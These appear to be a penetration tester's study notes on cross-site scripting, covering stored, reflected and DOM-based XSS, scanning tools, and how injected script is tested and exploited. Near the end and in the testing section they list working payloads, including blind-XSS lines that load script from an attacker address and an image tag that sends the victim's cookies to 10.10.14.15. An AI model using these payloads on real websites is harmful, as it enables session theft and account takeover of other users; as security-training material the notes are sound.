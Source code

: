## overview
- the attacker submits data that is stored on the server
	- the attacker knows the submitted data will be rendered on the client side for other users (ie. comments)
- the submitted data is a frontend coding injection that will execute js on the victim client

### XSS enumerators
- [XSS Strike](https://github.com/s0md3v/XSStrike), [Brute XSS](https://github.com/rajeshmajumdar/BruteXSS), and [XSSer](https://github.com/epsylon/xsser)
- [Nessus](https://www.tenable.com/products/nessus), [Burp Pro](https://portswigger.net/burp/pro), or [ZAP](https://owasp.org/www-project-zap/)

### Note
- XSS can be injected into any input in the HTML page, which is not exclusive to HTML input fields, but may also be in HTTP headers like the Cookie or User-Agent (i.e., when their values are displayed on the page).
- Manually testing XSS is not optimal
	- make a python script with multiple XSS payloads and have a built in function that detects  success/failure cases
	-  do manual code review
		- <font style="color:#CF0000">review the html output and see how your input is handeled</font>
		- most applications test their security against public XSS scripts so those will get patched
- if client side testing shows nothing, try testing inputs that go through server side
### testing for XSS
- upload to a field
```
<script>alert(window.origin)</script>
<plaintext>
<script>print()</script>
```
- blind XSS (may need script \[direct js to execute\], and php files)
```
'><script src=http://10.10.14.11/script.js></script>
<script>$.getScript("http://10.10.14.11")</script><script
```
-  test if XSS is stored
- for reflected XSS
	- because the server does not store the payload, you need to send a link that has the payload attached. 
	- processed by backend first
	- try editing the url parameters
	- (potential to attack webserver directly)
- for DOM XSS
	- no involvement with backend, (payloads used against another user)
	- JS on frontend will update the page but only after base page source is retrieved by browser
		- refreshing will clear the payload
	- detecting DOM vulnerability
		- js payload is not displayed in the html and does not execute
		- parts
			- source: js object that stores user input
			- sink: js function that writes user input to a DOM object
		- exploiting DOM XSS
			- make sure JS object stores the full payload part of your input
				- look in their js file
			- make sure the JS function allows the html tags you use
				- ex. innerhtml does not allow script tags
				- a good DOM XSS payload:
			```
			<img src="" onerror=alert(window.origin)>
			```
### XSS attacks
- editing frontend code methods
	- you can remove existing DOM elements with `document.getElementById().remove()` element in js
	- you can comment out the entirety of the html code after your inject with an open html comment `<!--` 
	- js can be injected into html pages with the `<script>` tag
- functionality
	-  if your attack involves receiving data from the victim don't forget to start a listener on your attacker device
	- if you want the website to be functional after submitting data, you need to upload a php file to properly handle website functionality


## XSS js verbs
```
fetch
alert
getScript
```

`<img src=x onerror=fetch("http://10.10.14.15/"+document.cookie);>`



`<img src=x onerror=fetch(http://10.10.14.15/javascript.js);>`